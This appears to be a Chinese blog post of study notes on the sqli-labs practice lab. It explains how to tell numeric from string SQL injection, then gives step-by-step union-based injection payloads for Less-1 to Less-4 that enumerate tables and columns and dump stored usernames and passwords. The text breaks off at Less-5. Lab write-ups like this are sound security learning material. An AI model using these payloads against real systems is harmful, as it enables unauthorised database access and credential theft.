 ```yaml
---
layout:    post
title:     sqli-labs
subtitle:  学习学习
date:      2020-10-23
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tage:
    - 学习
---
```


####  一、SQL注入类型判断（前提了解）

        数字型注入
        字符型注入
1.数字型：输入 id=1 and 1=1 和 1=2进行判断，首先在URL中输入？id=1 and 1=1 页面显示正常，后输入id=1 and 1=2 页面出错，说明注入类型为数字型。<br>

原因如下：当输入 and 1=1时，后台执行sql语句：<br>

select*from <> where id = 1 and 1=1;<br>

没有语法错误且逻辑判断正确，返回正常。<br>

当输入 and 1=2时，后台执行sql语句：<br>

select*from <> where id = 1 and 1=2;<br>

没有语法错误，但逻辑判断为假，所以返回错误。<br>

若为字符型输入上述语句，后台执行sql语句：<br>

select*from <> where id ='1 and 1=1';<br>

select*from <> where id = '1 and 1=2';<br>

查询语句将and语句全部转换为字符串，不会进行逻辑判断，所以不会显示错误。<br>

2.字符型：输入 and '1'='1 和 and '1'='2来判断. 。当输入and '1'='1时页面正常，输入 and '1'='2后错误，说明注入类型为字符型。<br>

原因如下：当输入 and '1'='1时，sql语句为：<br>

select*from <> where id = 'x' and '1'='1'; <br>

没有语法错误且逻辑判断正确，返回正常。<br>

当输入 and '1'='2时，sql语句为：<br>

select*from <> where id = 'x' and '1'='2'; <br>

没有语法错误，但逻辑判断为假，所以返回错误。<br>

#### Less-1

​    1.使用hackbar,首先输入id= 1,显示正常，接着输入id=1 and 1=2判断是否为数字型注入，发现不是。

​    2.输入id=1' 显示错误，说明为字符型注入。

​    3.用--+注释掉后面的’，输入id=1' order by x --+ （x=1,2,3,4）,判断字段，发现有3个字段。

​	4.id=-1' union select 1,2,3 --+，判断回显（要让系统使用联合查询，要使前面id错误（如id=-1等错误id）来进行后面的查询语句）。回显位为2，3位。

​	5.id=-1' union select 1,database(),3 --+,查询数据库名称。

​	6.id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 --+,得到表名。

​	7.id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3 --+,得到列名。

​	8.id=-1' union select 1,(select group_concat(username,password) from security.users),3 --+,成功。

#### Less-2

​	1.判断注入，输入id=1 and 1=2，报错，数字型注入。

​	2.步骤同Less-1。

#### Less-3

​	1.判断注入，发现是基于 ') 的字符注入。id=1') --+。

​	2.步骤同Less-1。

#### Less-4

​	1.判断注入，为基于 ") 的字符注入。 id=1") --+。

​	2.步骤同Less-1。

#### Less-5

​	1.